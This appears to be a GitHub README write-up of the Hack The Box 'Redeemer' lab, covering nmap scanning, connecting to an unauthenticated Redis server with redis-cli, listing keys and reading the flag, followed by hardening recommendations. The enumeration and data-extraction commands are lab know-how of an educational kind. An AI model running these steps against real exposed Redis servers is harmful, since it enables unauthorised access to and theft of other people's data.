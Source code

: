 # HTB-Redeemer-Redis-Enumeration

# HTB Redeemer – Redis Exploitation & Flag Extraction

## 📝 Project Summary
This penetration testing project targets the "Redeemer" machine from Hack The Box, focusing on exploitation of a misconfigured Redis server running on port 6379. By connecting to the Redis instance via `redis-cli`, database contents were dumped, and the flag was retrieved directly from memory.

## 📌 Objective
Explore Redis enumeration and extraction of data from an exposed, unauthenticated Redis server.

## 🔧 Tools Used
- Nmap  
- redis-cli  
- Linux terminal tools (`ping`, `curl`, etc.)

## 🧪 Methodology

### 1. Enumeration
- Verified target was online via `ping`
- Scanned ports using:

  nmap -sV <target_IP>

Found open Redis port: 6379

2. Accessing Redis
Installed Redis tools:

sudo apt install redis-tools

Connected to Redis

redis-cli -h <target_IP>

3. Redis Enumeration

Viewed server info:

info

Selected DB index:

select 0

Listed Keys

keys *

Retrieved flag:

get <key>

🚨 Vulnerability Identified
Misconfigured Redis: Open to unauthenticated access over the internet

Impact: Anyone could extract data directly from the Redis key-value store

✅ Recommendations
Bind Redis to localhost or secure it with authentication

Enable Redis ACLs for key-based access control

Use firewall rules or VPN tunneling for remote access
